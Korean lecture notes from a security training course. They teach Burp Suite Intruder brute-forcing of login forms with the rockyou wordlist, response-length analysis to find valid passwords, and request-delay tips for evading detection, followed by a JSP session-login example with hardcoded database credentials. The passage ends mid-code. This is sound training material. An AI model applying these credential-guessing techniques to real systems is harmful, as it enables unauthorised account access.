







---
title: "📝 웹 애플리케이션 보안 강의 노트 (Day 2)"
date: 2025-12-23
excerpt: "Burp Suite 활용, 세션/쿠키 보안, 브루트 포스 공격 및 대응 방법을 학습합니다."
categories:
  - App-Security
tags:
  - App-Security
  - SK_Rookies
---

- App-Security
  - App-Security
  - SK_Rookies

# 📝 웹 애플리케이션 보안 강의 노트 (Day 2)

> **강의일자**: 2025년 12월 23일
> **주제**: 웹 해킹 도구(Burp Suite), 세션 & 쿠키, 브루트 포스 공격, 패킷 분석, 웹쉘
> **수강 기수**: 28기


## 📌 목차

1. [강의 개요 및 전체 학습 계획](#1-강의-개요-및-전체-학습-계획)
2. [지난 시간 복습 및 오늘의 목표](#2-지난-시간-복습-및-오늘의-목표)
3. [Burp Suite 한글 깨짐 해결](#3-burp-suite-한글-깨짐-해결)
4. [Burp Suite Intruder 기능 상세 분석](#4-burp-suite-intruder-기능-상세-분석)
5. [세션(Session) 기반 로그인 구현](#5-세션session-기반-로그인-구현)
6. [세션 탈취 실습 및 우회 기법](#6-세션-탈취-실습-및-우회-기법)


## 1. 강의 개요 및 전체 학습 계획

### 1.1 강의의 큰 그림

**강사님의 말씀:**
> "오늘 하고 다음 주 월요일에 마지막 시간으로 웹 애플리케이션 마지막 시간을 가질 텐데요. 많이 배워왔네, 절반쯤 배운 것 같고..."

오늘 강의는 웹 애플리케이션 보안의 **실전 응용 단계**로, 지금까지 배운 이론적 개념들을 실제 도구와 코드로 구현하는 시간입니다.

### 1.2 전체 학습 로드맵

#### 📚 남은 강의 내용 구성



**💡 중요한 학습 철학:**

강사님께서 강조하신 핵심 개념:
- **"이론 먼저, 도구는 그 다음"**: 개념 없이 도구만 배우면 그 도구가 주는 정보의 의미를 파악하지 못합니다.
- **"우리가 수동으로 했던 것을 도구로 자동화"**: 지금까지 배운 SQL Injection, XSS 등을 도구로 빠르게 수행하는 방법을 배웁니다.

### 1.3 오늘 강의 상세 계획

#### ✅ 오전 학습 목표

| 순서 | 주제 | 상세 내용 | 예상 시간 |
|:---:|:---:|:---|:---:|
| 1 | Burp Suite 설정 | 한글 깨짐 해결, 기본 프록시 설정 | 20분 |
| 2 | Intruder 기능 | 자동화 공격 방식 4가지 학습 | 30분 |
| 3 | 세션 로그인 구현 | JSP 코드로 세션 기반 로그인 사이트 구축 | 60분 |
| 4 | 세션 탈취 실습 | 브라우저 간 세션 복사 및 우회 | 30분 |

#### ✅ 오후 학습 목표

| 순서 | 주제 | 상세 내용 | 예상 시간 |
|:---:|:---:|:---|:---:|
| 1 | 브루트 포스 공격 | Burp Suite Intruder로 패스워드 크래킹 | 40분 |
| 2 | 패킷 스니핑 | tcpdump로 패킷 캡처 → Wireshark 분석 | 40분 |
| 3 | 웹쉘 업로드 | 파일 업로드 취약점 실습 | 60분 |
| 4 | XSS + 세션 탈취 | 취약한 게시판에 XSS로 쿠키 탈취 | 60분 |


## 2. 지난 시간 복습 및 오늘의 목표

### 2.1 지난 시간에 배운 내용 요약

**강사님의 복습:**
> "어제 우리가 파일을 좀 많이 만들긴 했는데... 쿠키를 배웠고 실제 쿠키와 세션의 개념에 대해서 어제 설명을 드렸었는데 실제로 우리가 코드에 구현을 하진 않았어요."

#### 📋 지난 강의에서 다룬 주요 내용

1. **쿠키(Cookie) 개념**
   - 클라이언트(브라우저) 측에 저장되는 데이터
   - `document.cookie`로 JavaScript에서 접근 가능
   - 보안 위험: XSS 공격으로 탈취 가능

2. **세션(Session) 개념 (이론만)**
   - 서버 측에 저장되는 데이터
   - 세션 ID만 클라이언트에 전달
   - 더 안전하지만, 세션 ID 탈취 시 위험

3. **3-Tier 아키텍처**
   - 웹 서버(Presentation Layer)
   - 애플리케이션 서버(Business Logic Layer)
   - 데이터베이스 서버(Data Layer)

4. **기본 로그인 기능 구현**
   - `login.jsp`: 로그인 폼
   - DB 연결 및 인증 처리
   - **문제점**: 세션 없이 URL만 알면 모든 페이지 접근 가능

### 2.2 오늘 해결할 문제

#### 🔴 기존 구현의 보안 취약점

**시나리오:**
```
http://1.1.1.1/login.jsp  →  로그인 성공  →  main.jsp 표시

그런데...

브라우저 URL 창에 직접 입력:
http://1.1.1.1/main.jsp  →  로그인 없이 바로 접근 가능!
```

**문제점 분석:**
- 로그인 여부를 확인하지 않음
- 세션 검증 로직 부재
- URL만 알면 모든 페이지 접근 가능

#### ✅ 오늘 구현할 해결 방안

1. **세션 기반 인증 구현**
   - 로그인 성공 시 서버에서 세션 생성
   - 세션 ID를 쿠키로 클라이언트에 전달
   - 모든 보호된 페이지에서 세션 검증

2. **세션 검증 모듈화**
   - `sessionCheck.jsp` 공통 모듈 작성
   - `<%@ include file="sessionCheck.jsp" %>`로 재사용

3. **세션 탈취 및 방어 실습**
   - 공격자 관점: 세션 ID 복사하여 우회
   - 방어자 관점: 세션 타임아웃, HTTPS, HttpOnly 플래그


## 3. Burp Suite 한글 깨짐 해결

### 3.1 문제 상황

**강사님의 경험:**
> "한글이 깨지고 막 이런 페이지들을 그냥 그대로 화면 캡처해서 그냥 제출하고 막 이러더라고요. 작업할 때 물론 시간이 없으니까 그런다고는 하지만 그런 거 조금만 찾아보면 쉽게 해결하고 깔끔하게 보이게 해줄 수 있는데..."

#### 증상

Burp Suite의 **HTTP 메시지 디스플레이**에서 한글이 다음과 같이 표시됩니다:

```
고?름
????
□□□□
```

### 3.2 해결 방법: 폰트 변경

#### 📟 Step-by-Step 한글 폰트 설정

**Step 1: Extensions 메뉴 진입**

```
Burp Suite 상단 메뉴
└─ Extensions
   └─ Extensions Settings (새 버전에서 위치 변경됨)
```

**Step 2: User Interface 섹션 확장**

```
Extensions Settings 왼쪽 트리
└─ User Interface
   └─ Message Editor  ← 여기를 클릭!
```

**Step 3: HTTP Message Display 폰트 변경**

아래로 스크롤하여 다음 항목을 찾습니다:

| 설정 항목 | 값 |
|:---|:---|
| **HTTP Message Display** | |
| Font | Change Settings 클릭 |
| 선택 폰트 | **굴림체** (또는 맑은 고딕, 나눔고딕 등) |
| Font Size | 12pt (기본값 유지) |

**Step 4: 변경 사항 즉시 적용**

- Save 버튼 없음 (자동 저장)
- Target 탭으로 돌아가서 확인

#### ✅ 변경 전후 비교

**변경 전:**
```
Response 탭
--------------------
??????
????? ????
```

**변경 후:**
```
Response 탭
--------------------
환영합니다
로그인 성공
```

### 3.3 Burp Suite UI 변경 이슈

**강사님의 조언:**
> "이게 교재가 몇 년이 지나면 또 이런 것들이 다 바뀌어 버리잖아요. 그래서 내가 이런 걸 UI 들어가 있는 걸 별로 안 좋아해요. 항상 새로 찾아 봐야 돼."

#### 🔍 UI 위치 변경 히스토리

| Burp Suite 버전 | 한글 설정 경로 |
|:---:|:---|
| **구버전** | Options → Display → HTTP Message Display → Font |
| **현재 버전** | Extensions → Extensions Settings → User Interface → Message Editor → HTTP Message Display |
| **미래 버전** | (위치가 또 바뀔 수 있음) |

💡 **팁**: ChatGPT나 DeepSeek에게 "Burp Suite [버전] 한글 폰트 설정 방법"을 물어보면 최신 경로를 알 수 있습니다.


## 4. Burp Suite Intruder 기능 상세 분석

### 4.1 Intruder란?

#### 📖 개념 정의

**Intruder (인트루더)**:
> 공격자가 수작업으로 접속해서 일일이 확인하지 않아도, 해당 웹 페이지에 전달되는 **변수 값을 자동으로 생성**해서 전달하도록 규칙을 만들어서 해당 페이지를 계속 탐색하는 기능입니다.

#### 💡 사용 사례

1. **브루트 포스(Brute Force) 공격**
   - ID 고정, 패스워드만 변경하며 로그인 시도
   - 패스워드 사전 파일(rockyou.txt 등) 활용

2. **파라미터 조작**
   - 페이지 인덱스 증가 (`idx=1`, `idx=2`, ...)
   - 사용자 ID 변경 (`uid=100`, `uid=101`, ...)

3. **Fuzzing**
   - 예상치 못한 입력으로 취약점 발견
   - 특수문자, SQL 구문, XSS 페이로드 삽입

### 4.2 Intruder 실행 방법

#### 📟 Step 1: Target 탭에서 요청 선택

```
Burp Suite
└─ Proxy
   └─ HTTP History (또는 Intercept)
      └─ 원하는 HTTP 요청 선택
         └─ 우클릭 → Send to Intruder
```

**예시:**
```http
GET /index.jsp?hanbIdx=96 HTTP/1.1
Host: hanb.co.kr
Cookie: JSESSIONID=ABCD1234...
```

#### 📟 Step 2: Intruder 탭에서 Payload 위치 지정

Intruder 탭으로 이동하면 HTTP 요청 메시지가 표시됩니다.

**Position 탭에서 공격 대상 지정:**

1. 변경하고 싶은 값을 **드래그**로 선택
2. **Add §** 버튼 클릭
3. 선택한 값 앞뒤로 `§` 기호가 추가됨

**예시:**
```http
GET /index.jsp?hanbIdx=§96§ HTTP/1.1
```

→ `96` 부분이 페이로드로 교체됩니다.

### 4.3 Attack Type: 4가지 공격 방식

#### 🎯 1. Sniper Attack (스나이퍼 공격)

**특징:**
- **단일 페이로드** 사용
- 하나의 변수만 변경
- 가장 간단하고 빠름

**사용 예시:**

```http
Position:
POST /login.jsp HTTP/1.1
username=admin
password=§payload§

Payloads:
1234
password
admin123
qwerty
```

**결과:**
- `password=1234` 시도
- `password=password` 시도
- `password=admin123` 시도
- `password=qwerty` 시도

#### 🎯 2. Battering Ram Attack (배터링 램 공격)

**특징:**
- **동일한 페이로드**를 여러 위치에 동시 삽입
- 모든 위치에 같은 값 사용

**사용 예시:**

```http
Position:
POST /login.jsp HTTP/1.1
username=§payload§
password=§payload§

Payloads:
admin
user
test
```

**결과:**
- `username=admin&password=admin`
- `username=user&password=user`
- `username=test&password=test`

#### 🎯 3. Pitchfork Attack (피치포크 공격)

**특징:**
- **여러 페이로드 세트**를 각각의 위치에 매칭
- 페이로드 개수가 같아야 함

**사용 예시:**

```http
Position:
POST /login.jsp HTTP/1.1
username=§payload1§
password=§payload2§

Payload Set 1 (username):
admin
user
guest

Payload Set 2 (password):
1234
password
guest123
```

**결과:**
- `username=admin&password=1234`
- `username=user&password=password`
- `username=guest&password=guest123`

#### 🎯 4. Cluster Bomb Attack (클러스터 폭탄 공격)

**특징:**
- **모든 조합**을 시도
- 가장 강력하지만 시간이 오래 걸림

**사용 예시:**

```http
Position:
POST /login.jsp HTTP/1.1
username=§payload1§
password=§payload2§

Payload Set 1:
admin
user

Payload Set 2:
1234
password
```

**결과:**
- `username=admin&password=1234`
- `username=admin&password=password`
- `username=user&password=1234`
- `username=user&password=password`

**시도 횟수 계산:**
```
총 시도 횟수 = (Payload Set 1 개수) × (Payload Set 2 개수)
             = 2 × 2 = 4회
```

### 4.4 Payload 설정 방법

#### 📟 Payload 탭 설정

**Payload Type 선택:**

| Payload Type | 설명 | 사용 사례 |
|:---|:---|:---|
| **Simple list** | 직접 입력한 목록 사용 | 소규모 테스트 |
| **Runtime file** | 외부 파일(.txt) 로드 | 대규모 사전 파일 (rockyou.txt) |
| **Numbers** | 숫자 범위 지정 | 페이지 인덱스 증가 (1~100) |
| **Dates** | 날짜 범위 지정 | 생년월일 추측 |
| **Custom iterator** | 복잡한 조합 생성 | 특수 패턴 |

#### 📟 Simple List 예시

**Payload Options [Simple list]:**

```
1. Add 버튼 클릭
2. 값 입력:
   - 1234
   - password
   - admin123
   - qwerty
3. 각각 Add 클릭

최종 목록:
  1234
  password
  admin123
  qwerty
```

#### 📟 Runtime File (패스워드 사전 파일)

**rockyou.txt 활용:**

```bash
# rockyou.txt 파일 위치 확인
$ locate rockyou.txt
/usr/share/wordlists/rockyou.txt

# 파일 크기 확인
$ wc -l /usr/share/wordlists/rockyou.txt
  14344392 /usr/share/wordlists/rockyou.txt

# 가장 많이 사용되는 패스워드 TOP 10
$ head -10 /usr/share/wordlists/rockyou.txt
123456
password
12345678
qwerty
123456789
12345
1234
111111
1234567
dragon
```

**Burp Suite에서 로드:**

```
Payload Options [Runtime file]
└─ Load... 버튼 클릭
   └─ /usr/share/wordlists/rockyou.txt 선택
```

#### 📟 Numbers (숫자 범위)

**Sequential 설정:**

| 옵션 | 값 | 설명 |
|:---|:---|:---|
| Type | Sequential | 순차 증가 |
| From | 96 | 시작 값 |
| To | 105 | 종료 값 |
| Step | 1 | 증가 단위 |

**결과:**
```
96
97
98
99
100
101
102
103
104
105
```

**Random 설정:**

| 옵션 | 값 | 설명 |
|:---|:---|:---|
| Type | Random | 무작위 선택 |
| From | 1 | 최소값 |
| To | 1000 | 최대값 |

### 4.5 Attack 실행 및 결과 분석

#### 📟 Start Attack

**Intruder 탭 → Start Attack 버튼 클릭**

새 창이 열리며 공격 진행 상황이 표시됩니다.

#### ✅ Results 탭 분석

**결과 테이블 구조:**

| 컬럼 | 설명 | 분석 포인트 |
|:---|:---|:---|
| **#** | 시도 번호 | 순서 확인 |
| **Payload** | 사용된 페이로드 | 어떤 값을 시도했는지 |
| **Status** | HTTP 응답 코드 | 200(성공), 302(리다이렉트), 404(Not Found) |
| **Error** | 에러 발생 여부 | 타임아웃, 연결 실패 등 |
| **Timeout** | 타임아웃 여부 | |
| **Length** | 응답 바이트 크기 | **⭐ 가장 중요!** |

#### 🔍 Length 값으로 성공 판별

**강사님의 팁:**
> "저 같은 경우는 이렇게 해서 돌리면 Length를 봐요. 쭉 계속 로그인 실패를 하면 패스워드가 들어가면서 계속 Length가 같은 사이즈가 나올 건데, 중간에 사이즈가 확 바뀌어, 확 줄어들거나 확 늘어나거나 숫자 Length가 다른 게 하나가 껴있어요. 그럼 걸 뭐야? 다른 메시지를 받았을 가능성이 크죠."

**시나리오:**

```
#    Payload      Status  Length
1    1234         200     5032 bytes  (로그인 실패 페이지)
2    password     200     5032 bytes  (로그인 실패 페이지)
3    admin123     200     5032 bytes  (로그인 실패 페이지)
4    qwerty       302     287 bytes   ← 다르다! (리다이렉트)
5    welcome      200     5032 bytes  (로그인 실패 페이지)
```

**#4번 시도 분석:**
- Status: 302 (리다이렉트)
- Length: 287 bytes (다른 시도들과 다름)
- **결론**: `qwerty`가 정답 패스워드!

#### 🔍 Response 내용 확인

**#4번 클릭 → Response 탭:**

```http
HTTP/1.1 302 Found
Location: /main.jsp
Set-Cookie: JSESSIONID=ABCD1234...
Content-Length: 0

(로그인 성공 후 main.jsp로 리다이렉트)
```

### 4.6 Resource Pool 설정

#### ⚡ 동시 요청 수 조절

**강사님의 설명:**
> "리소스 풀에서는 동시에 이게 리퀘스트가 하나씩 나가면 너무 느리니까 동시에 여러 개, 스레드로 나눠서 여러 개를 동시에 쫙 쏘겠죠."

**Resource Pool 탭:**

| 설정 | 값 | 설명 |
|:---|:---|:---|
| Maximum concurrent requests | 5-10 | 동시 요청 수 (너무 높으면 서버 부하, 탐지 위험) |
| Delay between requests (ms) | 0-100 | 요청 간 지연 (탐지 회피) |
| Throttle | Off | 속도 제한 (켜면 느려짐) |

⚠️ **주의사항:**
- **Community Edition**: 동시 요청 제한, 속도 제한 있음
- **Professional Edition**: 제한 없음, 더 빠른 공격 가능
- **실무**: Burp Suite보다 커스텀 스크립트 선호

### 4.7 Options 탭 추가 설정

#### 🛠️ 세부 옵션

**Grep - Match:**
- 특정 문자열 탐지 (예: "로그인 성공", "Welcome")

**Grep - Extract:**
- 응답에서 특정 데이터 추출 (예: 세션 ID)

**Redirections:**
- 리다이렉트 자동 따라가기 설정

**Request Engine:**
- 타임아웃, 재시도 설정


## 5. 세션(Session) 기반 로그인 구현

### 5.1 왜 세션이 필요한가?

#### 🔴 기존 방식의 문제점

**시나리오:**

```
사용자 → login.jsp 접속
        ↓
        ID/PW 입력
        ↓
        loginCheck.jsp에서 DB 조회
        ↓
        성공 시 → main.jsp 표시

BUT!

공격자 → 브라우저 주소창에 직접 입력:
        http://192.168.131.100/main.jsp

결과: 로그인 없이 바로 접근 가능!
```

**보안 취약점:**
- URL만 알면 모든 페이지 접근
- 로그인 여부 검증 로직 없음
- 권한 확인 불가

#### ✅ 세션 방식의 해결책



### 5.2 JSP 세션 구현 코드 분석

#### 📁 프로젝트 파일 구조

```
/var/lib/tomcat9/webapps/ROOT/session/
├── login.jsp              # 로그인 폼
├── loginCheck.jsp         # 로그인 인증 처리
├── main.jsp               # 메인 페이지 (보호됨)
├── mypage.jsp             # 마이 페이지 (보호됨)
├── board.jsp              # 게시판 (보호됨)
├── logout.jsp             # 로그아웃 처리
└── sessionCheck.jsp       # 세션 검증 공통 모듈
```

### 5.3 login.jsp: 로그인 폼

#### 📄 소스 코드

```jsp
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>로그인</title>
</head>
<body>
    <h2>로그인</h2>
    <form action="loginCheck.jsp" method="post">
        <label>아이디:</label>
        <input type="text" name="uname" required><br><br>

        <label>비밀번호:</label>
        <input type="password" name="pass" required><br><br>

        <button type="submit">로그인하기</button>
    </form>
</body>
</html>
```

#### 🔍 코드 분석

| 요소 | 설명 |
|:---|:---|
| `action="loginCheck.jsp"` | 폼 제출 시 loginCheck.jsp로 이동 |
| `method="post"` | POST 방식으로 데이터 전송 (URL에 노출 안 됨) |
| `name="uname"` | 아이디 필드 이름 |
| `name="pass"` | 패스워드 필드 이름 |

### 5.4 loginCheck.jsp: 세션 생성 로직

#### 📄 소스 코드

```jsp
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>
<%@ page import="java.sql.*" %>
<%
    // 1. 파라미터 받기
    String uname = request.getParameter("uname");
    String pass = request.getParameter("pass");

    // 2. DB 연결 정보
    String url = "jdbc:mariadb://192.168.131.100:3306/mydb";
    String dbUser = "root";
    String dbPass = "1234";  // 실제로는 myDB123인데 예시

    Connection conn = null;
    PreparedStatement pstmt = null;
    ResultSet rs = null;

    try {
        // 3. DB 연결
        Class.forName("org.mariadb.jdbc.Driver");
        conn = DriverManager.getConnection(url, dbUser, dbPass);

        // 4. SQL 쿼리 실행 (PreparedStatement 사용 → SQL Injection 방어)
        String sql = "SELECT uid, uname, priority FROM userinfo WHERE uname=? AND pass=?";
        pstmt = conn.prepareStatement(sql);
        pstmt.setString(1, uname);
        pstmt.setString(2, pass);

        rs = pstmt.executeQuery();

        // 5. 로그인 성공 여부 확인
        if (rs.next()) {
            // ⭐ 세션 생성
            int uid = rs.getInt("uid");
            String username = rs.getString("uname");
            int priority = rs.getInt("priority");

            session.setAttribute("uid", uid);
            session.setAttribute("uname", username);
            session.setAttribute("priority", priority);
            session.setAttribute("login", true);

            // 메인 페이지로 리다이렉트
            response.sendRedirect("main.jsp");
        } else {
